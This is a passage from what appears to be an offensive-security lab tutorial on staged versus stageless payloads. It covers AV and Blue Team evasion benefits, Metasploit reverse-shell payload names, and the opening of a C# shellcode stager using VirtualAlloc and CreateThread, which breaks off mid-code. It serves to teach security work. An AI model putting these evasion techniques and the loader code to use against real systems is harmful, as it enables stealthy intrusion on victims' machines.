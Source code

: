 For staged payloads, you will have:

* Small footprint on disk. Since stage0 is only in charge of downloading the final shellcode, it will most likely be small in size.
* The final shellcode isn't embedded into the executable. If your payload is captured, the Blue Team will only have access to the stage0 stub and nothing more.
* The final shellcode is loaded in memory and never touches the disk. This makes it less prone to be detected by AV solutions.
* You can reuse the same stage0 dropper for many shellcodes, as you can simply replace the final shellcode that gets served to the victim machine.

In conclusion, we can't say that either type is better than the other unless we add some context to it. In general, stageless payloads are better suited for networks with lots of perimeter security, as it doesn't rely on having to download the final shellcode from the Internet. If, for example, you are performing a USB Drop Attack to target computers in a closed network environment where you know you won't get a connection back to your machine, stageless is the way to go.

Staged payloads, on the other hand, are great when you want your footprint on the local machine to be reduced to a minimum. Since they execute the final payload in memory, some AV solutions might find it harder to detect them. They are also great for avoiding exposing your shellcodes (which usually take considerable time to prepare), as the shellcode isn't dropped into the victim's disk at any point (as an artifact).

### Stagers in Metasploit

When creating payloads with msfvenom or using them directly in Metasploit, you can choose to use either staged or stageless payloads. As an example, if you want to generate a reverse TCP shell, you will find two payloads exist for that purpose with slightly different names (notice the `_` versus `/` after `shell`):

|Payload|Type|
|-------|----|
|windows/x64/shell_reverse_tcp|Stageless payload|
|windows/x64/shell/reverse_tcp|Staged payload|

You will generally find that the same name patterns are applied to other types of shells. To use a stageless Meterpreter, for example, we would use the `windows/x64/meterpreter_reverse_tcp`, rather than `windows/x64/meterpreter/reverse_tcp`, which works as its staged counterpart.

### Creating Your Own Stager

To create a staged payload, we will use a slightly modified version of the stager code provided by [@mvelazc0](https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs). The full code of our stager can be obtained here, but is also available in your Windows machine at `C:\Tools\CS Files\StagedPayload.cs`:

```
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

```